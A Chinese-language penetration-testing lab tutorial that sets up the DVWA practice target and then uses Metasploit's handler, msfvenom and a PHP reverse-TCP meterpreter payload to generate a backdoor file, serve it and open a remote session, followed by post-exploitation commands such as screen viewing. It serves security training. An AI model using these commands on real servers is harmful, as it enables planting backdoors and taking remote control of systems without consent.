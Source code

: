 # 一、 环境准备

### 1 DVWA靶场

   DVWA下载：https://codeload.github.com/ethicalhack3r/DVWA/zip/master

注意：配置DVWA环境 准备PHP7.0以上，和 Nginx环境 
1 配置数据库密码  配置 config/config.inc.php.dist 文件（注意后门的 .dist要通过重命名删掉）
2 使用浏览器访问 http://XxIP/setup.php
3 红字问题解决
4 缺少key  直接替换下面2句  或者 访问https://www.google.com/recaptcha/admin/create
$_DVWA[ 'recaptcha_public_key' ] = '6LdJJlUUAAAAAH1Q6cTpZRQ2Ah8VpyzhnffD0mBb';
$_DVWA[ 'recaptcha_private_key' ] = '6LdJJlUUAAAAAM2a3HrgzLczqdYp4g05EqDs-W4K';
5 allow_url_include: Disabled  提示没开启
找到php目录里的php.ini allow_url_include  将后面参数OFF 改成On 修改完成重启Nginx生效

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# 二、Metasploit配置监控及攻击载荷

### 1 配置监控-使用handler模块

###    use exploit/multi/handler

### ![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/a2529fe010ac46108a0413b8153c08b0.png)  2 配置攻击载荷设置payload

###    第一步设置payload

###      set payload php/meterpreter/reverse_tcp

###    第二步设置 lhost 和 lport  

###    set lhost xxxip ；   

###   set lport  xxx端口；

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/ad204b7bb1bc4c709f4d6948d4ef219a.png) 

### 3 生成php后门执行攻击获得meterpreter



新建一个终端在终端内输入

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 R>shell.php

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1fa4967afb3f487f84926004d4ddc591.png)

3.2 传播- 使用Python简单的web服务

python -m SimpleHTTPServer 80

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/6604546c76d7471e9f332e81daf6c570.png)

将shell.php

3.3 执行攻击获得meterpreter

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1003035b32a343488a282bddec48a62b.png)

run 或者exploit

获取到meterpreter 我们就可以做渗透操作了

比如 观看屏幕 可以在meterpreter里输入 

run vnc

查看当前账号可以在meterpreter里输入

getuid
